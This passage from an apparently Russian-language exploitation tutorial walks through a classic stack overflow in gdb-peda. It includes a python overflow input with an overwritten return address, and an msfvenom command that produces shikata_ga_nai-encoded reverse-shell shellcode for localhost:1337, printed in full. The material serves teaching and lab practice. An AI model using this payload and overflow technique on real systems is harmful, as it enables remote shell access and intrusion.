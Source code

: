 ```
gdb-peda$ show debug-file-directory  // смотрим, какая директория содержит библиотеки с информацией для дебага
The directory where separate debug symbols are searched for is "/usr/lib/debug".

gdb-peda$ set debug-file-directory  // временно отключаем ее использование
```

[![gdb-peda-libc-so-error.png]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-libc-so-error.png" | relative_url }})]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-libc-so-error.png" | relative_url }})
{: .center-image}

Методом «Пол, Палец, Потолок» выясняем, что при перезаписи 160 байтов за пределами стека ничего плохого не происходит.

```
gdb-peda$ r `python -c 'print "A"*132 + "\xd3\x4d\xc0\xd3"[::-1] + "B"*160'`
```

[![gdb-peda-libc-160-bytes-no-error.png]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-libc-160-bytes-no-error.png" | relative_url }})]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-libc-160-bytes-no-error.png" | relative_url }})
{: .center-image}

Поэтому ради разнообразия сгенерируем пейлоад с помощью метасполитовского `msfvenom` и посмотрим на заполнении стека при таком размещении шелл-кода.

Для этого переместимся на Kali и посмотрим список доступных полезных нагрузок для Linux x86, которые не ориентируются на использование meterpreter (которого в нашем распоряжении на Ubuntu нет).

[![kali-payloads.png]({{ "/img/pwn-kingdom/classic-stack-overflow/kali-payloads.png" | relative_url }})]({{ "/img/pwn-kingdom/classic-stack-overflow/kali-payloads.png" | relative_url }})
{: .center-image}

Я выбрал реверс-шелл linux/x86/shell_reverse_tcp. Сгенерируем его, указав в качестве жертвы localhost на 1337 порту и закодировав нагрузку с помощью [энкодера](https://xakep.ru/2018/12/14/msfvenom/#toc03.1) x86/shikata_ga_nai для увеличения размера кода.

```
root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp -e x86/shikata_ga_nai -a x86 --platform linux LHOST=127.0.0.1 LPORT=1337 -f c
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\xbe\xaf\x6c\xe1\x7e\xd9\xe5\xd9\x74\x24\xf4\x5f\x31\xc9\xb1"
"\x12\x83\xc7\x04\x31\x77\x0e\x03\xd8\x62\x03\x8b\x17\xa0\x34"
"\x97\x04\x15\xe8\x32\xa8\x10\xef\x73\xca\xef\x70\xe0\x4b\x40"
"\x4f\xca\xeb\xe9\xc9\x2d\x83\x96\x29\xce\x52\x01\x28\xce\x51"
"\xe8\xa5\x2f\xe9\x6c\xe6\xfe\x5a\xc2\x05\x88\xbd\xe9\x8a\xd8"
"\x55\x9c\xa5\xaf\xcd\x08\x95\x60\x6f\xa0\x60\x9d\x3d\x61\xfa"
"\x83\x71\x8e\x31\xc3";
```


[//]: # (2019-09-20)